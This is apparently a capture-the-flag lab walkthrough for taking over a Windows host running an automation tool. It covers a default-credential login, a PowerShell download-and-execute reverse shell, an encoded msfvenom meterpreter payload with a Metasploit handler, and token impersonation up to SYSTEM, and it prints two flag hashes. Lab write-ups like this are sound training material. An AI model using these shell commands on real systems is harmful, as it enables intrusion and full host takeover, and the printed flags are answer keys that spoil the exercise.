## **Initial Access**

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).



admin:admin





Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: _powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: _python3 -m http.server_





79007a09481963edf2e1321abd9ae2a0



## **Switching Shells**

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`  

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`

Before running this program, ensure the handler is set up in Metasploit:

==`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`==  

This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell

`Start-Process "shell-name.exe"`

This should spawn a meterpreter shell for you!  






## **Privilege Escalation**

Now that we have initial access, let's use token impersonation to gain system access.

View all the privileges using whoami /priv

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

Enter: _load incognito_ to load the incognito module in Metasploit. Please note that you may need to use the _use incognito_ command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.



To check which tokens are available, enter the _list_tokens -g_. We can see that the _BUILTIN\Administrators_ token is available.



Use the _impersonate_token "BUILTIN\Administrators"_ command to impersonate the Administrators' token.



Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions. The safest process to pick is the services.exe process. First, use the _ps_ command to view processes and find the PID of the services.exe process. Migrate to this process using the command _migrate PID-OF-PROCESS_




Read the root.txt file located at C:\Windows\System32\config
dff0f748678f280250f25a45b8046b4a


